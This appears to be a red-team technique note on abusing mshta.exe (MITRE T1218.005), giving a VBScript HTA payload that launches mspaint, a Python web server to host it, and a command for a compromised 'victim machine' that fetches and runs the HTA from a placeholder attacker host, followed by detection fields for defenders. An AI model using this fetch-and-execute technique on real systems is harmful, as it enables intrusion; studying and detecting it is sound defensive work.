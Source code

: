 # [MSHTA.exe](https://attack.mitre.org/techniques/T1218/005/)

## Exploit Syntax:

1. Run: 
```sh
mkdir /tmp/MrMeeseeks
cd /tmp/MrMeeseeks
```
2. Create an hta file with the following contents and save it as 'lookAtMe': 
 > *NOTE*: The .hta file extension is not required.

```VBScript
<!DOCTYPE html>
<html lang-"en">
<head>
  <title>This is a bad HTA file</title>

  <HTA:APPLICATION
    APPLICATIONNAME = "Bad HTA File"
  />

  <script language = "VBScript">
    Dim com
    Set com = CreateObject("WScript.Shell")
    com.run "mspaint.exe"
    set com = Nothing
  </script>
</head>
```

3. Change directory to the payload folder and start a simple http server with Python
```Bash
python3 -m http.server 6789
```
4. On the victim machine, likely with a beacon run the following:
```powershell
sharpps mshta http://<webserverIP>:6789/<nameofHTAfile>
```


## Detection Technique

* Investigate any instances of mshta.exe, if it is common, investigate mshta.exe interacting with the compromised machine itself.
    * process.name: mshta.exe
    * Network Connection: Outbound
    * Event.Action: Process Create
    * Event.Type: start, process start
    * Winlog.task: File Creation


## Resources 
* https://redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/
* https://lolbas-project.github.io/lolbas/Binaries/Mshta/
